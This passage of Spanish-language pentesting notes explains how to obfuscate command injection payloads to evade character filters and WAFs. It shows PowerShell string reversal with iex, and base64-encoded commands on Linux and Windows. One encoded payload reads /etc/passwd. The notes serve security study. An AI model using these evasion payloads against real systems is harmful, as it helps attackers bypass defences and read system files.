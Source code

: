 ![[Pasted image 20221230125740.png]]

>[!tip]
>si desea omitir un filtro de caracteres con el método anterior, también debe invertirlos o incluirlos al invertir el comando original.

**WINDOWS**

```powershell
"whoami"[-1..-20] -join '' #output: imaohw

iex "$('imaohw'[-1..-20] -join '')" #output: whoami
```

### COMANDOS CODIFICADOS

Es útil para los comandos que contienen caracteres filtrados o caracteres que el servidor puede decodificar como URL. Esto puede permitir que el comando se arruine cuando llegue al shell y finalmente no se ejecute. En lugar de copiar un comando existente en línea, esta vez intentaremos crear nuestro propio comando de ofuscación único. De esta manera, es mucho menos probable que un filtro o un WAF lo nieguen. El comando que creamos será único para cada caso, dependiendo de qué caracteres se permiten y el nivel de seguridad del servidor.

**LINUX**

En linux podemos usar los comandos `base64` o `xxd` para la codificacion:

```bash
#codificar
echo -n 'cat /etc/passwd | grep 33' | base64 # Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

#decodificar
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

>[!tip]
>Tenga en cuenta que estamos usando `<<<` para evitar el uso de una canalización `|`, que es un carácter filtrado.

![[Pasted image 20221230130313.png]]

**WINDOWS**

Usamos la misma técnica con Windows también. Primero, necesitamos codificar en base64 nuestra cadena, de la siguiente manera:

```powershell
#codificar
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

#output
dwBoAG8AYQBtAGkA

#decodificar
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
